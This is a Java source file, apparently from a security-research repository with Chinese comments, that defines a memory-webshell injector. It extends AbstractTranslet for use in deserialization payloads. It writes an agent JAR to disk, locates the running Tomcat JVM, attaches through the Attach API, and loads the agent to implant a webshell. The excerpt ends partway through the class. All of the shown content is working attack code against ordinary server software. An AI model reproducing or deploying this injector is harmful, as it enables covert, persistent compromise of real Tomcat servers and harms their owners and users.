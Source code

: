 ```java
public class AgentMemShell extends AbstractTranslet {
    public static String filename = "agentJAR.jar";
    public static String agentJAR_PATH = "E:\\CODE_COLLECT\\Idea_java_ProTest\\TomcatMemshell\\src\\main\\java\\org\\example\\tomcatmemshell\\Agent\\AgentJAR-1.0-SNAPSHOT.jar";
    public AgentMemShell(){
        try{
            String JarBaseString =  encodeFileToBase64(agentJAR_PATH);
            String JarPath = getJARFile(JarBaseString);//写Jar文件
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class/*<?>*/ MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class/*<?>*/ MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List/*<Object>*/ list = (java.util.List/*<Object>*/) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM list ...");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                java.lang.String name = (java.lang.String) displayName.invoke(o,null);
                // 列出当前有哪些 JVM 进程在运行
                // 这里的 if 条件根据实际情况进行更改
                if (name.contains("org.apache.catalina.startup.Bootstrap")){
                    // 获取对应进程的 pid 号
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
                    java.lang.String id = (java.lang.String) getId.invoke(o,null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o,new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    loadAgent.invoke(vm,new Object[]{JarPath});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    System.out.println("Agent.jar Inject Success !!");
                    break;
                }
            }


        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
```